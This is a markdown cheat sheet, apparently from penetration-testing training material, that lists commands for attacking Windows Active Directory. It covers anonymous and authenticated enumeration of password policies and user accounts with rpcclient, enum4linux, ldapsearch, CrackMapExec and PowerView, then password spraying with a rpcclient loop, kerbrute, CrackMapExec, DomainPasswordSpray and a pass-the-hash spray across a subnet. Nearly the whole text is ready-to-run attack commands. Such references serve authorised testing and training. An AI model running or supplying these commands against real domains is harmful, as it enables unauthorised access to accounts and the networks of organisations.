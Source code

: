# Password Spraying & Password Policies

***

| Command                                                                                                                              | Description                                                                                                                                                                                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done`                                 | Bash script used to generate `16,079,616` possible username combinations from a Linux-based host.                                                                                                                                                    |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`                                                                  | Uses `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host.                                                                                                           |
| `rpcclient -U "" -N 172.16.5.5`                                                                                                      | Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host.                                                                                                                            |
| `rpcclient $> querydominfo` `getdompwinfo`                                                                                           | Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host.                                                                                                                                                |
| `enum4linux -P 172.16.5.5`                                                                                                           | Uses `enum4linux` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host.                                                                                                                                        |
| `enum4linux-ng -P 172.16.5.5 -oA ilfreight`                                                                                          | Uses `enum4linux-ng` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the `-oA` option.                                                |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength`                          | Uses `ldapsearch` to enumerate the password policy in a target Windows domain from a Linux-based host.                                                                                                                                               |
| `net accounts`                                                                                                                       | Used to enumerate the password policy in a Windows domain from a Windows-based host.                                                                                                                                                                 |
| `Import-Module .\PowerView.ps1`                                                                                                      | Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host.                                                                                                                                                         |
| `Get-DomainPolicy`                                                                                                                   | Used to enumerate the password policy in a target Windows domain from a Windows-based host.                                                                                                                                                          |
| `enum4linux -U 172.16.5.5 \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"`                                                         | Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host.                                                                                 |
| `rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser`                                                                             | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host.                                                                                                                                                         |
| `crackmapexec smb 172.16.5.5 --users`                                                                                                | Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host.                                                                                                                                                |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host.                                                                                       |
| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`                                                                                      | Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host.                                                                                                                                         |
| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done`             | Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner.                                         |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`                                             | Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host.                                                                                               |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +`                                                       | Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`.                                          |
| `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`                                                                        | Uses `CrackMapExec` to validate a set of credentials from a Linux-based host.                                                                                                                                                                        |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +`                    | Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`. |
| `Import-Module .\DomainPasswordSpray.ps1`                                                                                            | Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host.                                                                                                                                                        |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`                                 | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host.                                                                                                              |

